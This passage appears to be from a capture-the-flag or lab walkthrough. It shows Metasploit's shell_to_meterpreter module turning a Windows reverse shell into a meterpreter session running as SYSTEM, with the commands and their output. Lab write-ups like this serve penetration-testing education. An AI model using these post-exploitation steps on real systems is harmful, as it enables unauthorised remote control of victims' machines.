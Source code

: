 Our options show that we must add the SESSION. 

```
msf6 post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to au
                                       to detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.


```

Set our session to 1 and run.

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type               Information  Connection
  --  ----  ----               -----------  ----------
  1         shell x64/windows               10.6.77.21:4444 -> 10.10.91.32:49233 (10.10.91.32)
  2         shell x64/windows               10.6.77.21:4444 -> 10.10.91.32:49234 (10.10.91.32)

msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1

```

Now that it has created a new meterpreter session, we can open it

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         shell x64/windows                                      10.6.77.21:4444 -> 10.10.91.32:49233 (10.10.91.3
                                                                   2)
  2         shell x64/windows                                      10.6.77.21:4444 -> 10.10.91.32:49234 (10.10.91.3
                                                                   2)
  3         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.6.77.21:4433 -> 10.10.91.32:49246 (10.10.91.3
                                                                   2)

msf6 post(multi/manage/shell_to_meterpreter) > session -i 3
[-] Unknown command: session
msf6 post(multi/manage/shell_to_meterpreter) > session -i 3
[-] Unknown command: session
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > 

```